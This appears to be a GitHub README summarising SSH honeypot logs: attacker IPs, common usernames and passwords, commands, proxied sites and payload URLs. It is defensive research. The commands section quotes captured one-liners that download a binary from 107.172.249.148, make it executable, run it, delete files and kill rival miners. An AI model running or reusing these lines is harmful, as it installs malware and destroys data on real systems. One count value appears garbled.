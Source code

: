 ### Successful Login IPs
```ruby
    1449 "194.88.107.163"
    821 "45.227.255.163"
    674 "5.188.86.174"
    643 "62.112.11.86"
    581 "45.227.255.205"
    356 "190.2.144.45"
    300 "109.236.89.61"
    294 "89.39.105.84"
    286 "62.112.11.8"
    286 "5.182.39.64"
```

### Failed Login IPs
```ruby
     44 "199.195.251.205"
      8 "45.227.254.10"
      2 "47.61.62.102"
      2 "194.165.16.89"
      2 "182.84.124.87"
      2 "143.198.220.67"
      2 "119.45.134.38"
      1 "95.70.166.88"
      1 "89.22.183.153"
      1 "89.163.150.234"
```


### Top 10 usernames used
```ruby
   9566 "root"
     24 "admin"
     18 "user"
     16 "ubuntu"
     14 "test"
     12 "git"
     10 "postgres"
      8 "tester"
      8 "deploy"
      7 "oracle"
```

### Top 10 passwords used
```ruby
  7238 "admin"
   1528 "password"
    671 ""
     50 "alpine"
     43 "123"
     36 "1234"
     24 "123456"
     13 "root"
     11 "test"
     11 "12345"
```

### Top 10 Commands
```ruby
     17 "rm -rf x86_64; cd /tmp; wget http://107.172.249.148/x86_64; curl -O http://107.172.249.148/x86_64; busybox wget http://107.172.249.148/x86_64; chmod 777 x86_64; ./x86_64 roots; rm -rf *; nc 1 1;"
     17 "cd /tmp; rm -rf x86_64; wget http://107.172.249.148/x86_64; curl -O http://107.172.249.148/x86_64; busybox wget http://107.172.249.148/x86_64; chmod 777 x86_64; ./x86_64 roots; rm -rf *; pkill cnrig; pkill xmrig; pkill YDEdr; pkill ip; pkill fuckjewishpeopl; pkill x-8.6-.ISIS; pkill x86_64; pkill x86;"
      7 "uname -a"
      5 "which ls"
      5 "w"
      5 "uname -m"
      5 "uname"
      5 "top"
      5 "ls -lh $(which ls)"
      5 "lscpu | grep Model"
```
### Top 10 TCP IP
The list contains a list of websites that was visited by people that were using the honeypot as a proxy
```ruby
   raker6944 "ip-who.com"
   4110 "i.instagram.com"
   4014 "23.235.255.50"
   4007 "www.google.ru"
   3282 "www.google.com"
   3224 "67.205.145.217"
   2499 "rogers-fido.janraincapture.com"
   2134 "ya.ru"
   2101 "23.52.19.209"
   1849 "208.95.112.1"

```
### Top files that was downloaded
```ruby
      5 "/root/.ssh/authorized_keys"
      2 ""
```
### Top 10 URLs
```ruby
    102 "http://107.172.249.148/x86_64"
      2 "http://71.127.148.69/.x/2sh"
      2 "http://71.127.148.69/.x/1sh"
      1 "http://71.127.148.69/.x/3sh"
```
